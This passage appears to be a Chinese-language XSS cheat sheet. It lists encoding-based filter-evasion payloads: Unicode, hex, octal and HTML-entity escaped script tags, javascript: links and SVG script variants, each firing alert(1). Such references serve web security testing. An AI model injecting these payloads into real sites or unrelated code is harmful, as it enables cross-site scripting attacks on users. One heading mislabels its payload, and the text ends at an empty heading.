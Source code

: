 #### **通过 iframe 沙箱禁用 JavaScript】**

```
<iframe sandbox src="//portswigger-labs.net"></iframe>
```

#### **禁用推荐人**

```
<meta name="referrer" content="no-referrer">
```

### **编码**

#### **超长 UTF-8**

```
<script>\u0061lert(1)</script>
```

**Unicode 转义 ES6 样式**

```
<script>\u{61}lert(1)</script>
```

**Unicode 转义 ES6 样式零填充**

```
<script>\u{0000000061}lert(1)</script>
```

**十六进制编码 JavaScript 转义**

```
<script>eval('\x61lert(1)')</script>
```

#### **八进制编码**

```
<script>eval('\141lert(1)')</script> <script>eval('alert(\061)')</script> <script>eval('alert(\61)')</script>
```

#### **带可选分号的十进制编码**

```
<a href="&#106;avascript:alert(1)">XSS</a><a href="&#106avascript:alert(1)">XSS</a>
```

#### **带 HTML 编码的 SVG 脚本**

```
<svg><script>&#97;lert(1)</script></svg> <svg><script>&#x61;lert(1)</script></svg> <svg><script>alert&NewLine;(1)</script></svg> <svg><script>x="&quot;,alert(1)//";</script></svg>
```

#### **带填充零的十进制编码**
